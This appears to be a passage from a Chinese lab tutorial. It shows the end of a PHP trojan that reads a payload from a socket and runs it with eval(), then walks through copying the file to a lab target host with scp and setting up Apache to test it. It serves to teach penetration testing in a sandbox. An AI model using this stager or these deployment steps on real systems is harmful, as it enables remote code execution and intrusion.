 ```
} 

$a = unpack("Nlen", $len);
$len = $a['len']; 
$b = ''; 

while (strlen($b) < $len) {

```
// 根据类型 stream，或者 socket 调用相应读取数据函数
switch ($s_type) { 
case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket_read($s, $len-strlen($b)); break; 
} 
```
} 

// 保存 $s 值为全局变量
$GLOBALS['msgsock'] = $s;

// 保存 $s_type 类型值为全局变量
$GLOBALS['msgsock_type'] = $s_type;

eval($b);

die();
```

### 4.3 上传到目标靶机

将生成的 PHP 木马文件件上传到实验楼宿主机，也就是实验楼目标靶机，IP 地址为 `192.168.122.1`。一般情况下，查看本机的 ip 地址命令为 `ifconfig`。下面我们将文件进行上传，输入如下命令：

```
# 实验楼环境中，直接上传到目标主机的网站目录下，会显示没有权限，所以先上传到目标主机
# 将木马程序上传到目标主机的 tmp 文件夹下
scp hello.php shiyanlou@192.168.122.1:/tmp
```
其中宿主机的账号名称是 `shiyanlou`，密码也是 `shiyanlou`:

![图片描述](../imgs/1534152691247.png)

在实验楼本机（也就是宿主机）安装 apache2 并开启 `apache` 服务，另外还要安装 php5，用以测试 PHP 木马：

```bash
# 更新软件源
sudo apt-get update
# 安装 apache2
sudo apt-get install -y apache2
# 开启 apache 服务
sudo service apache2 start
```

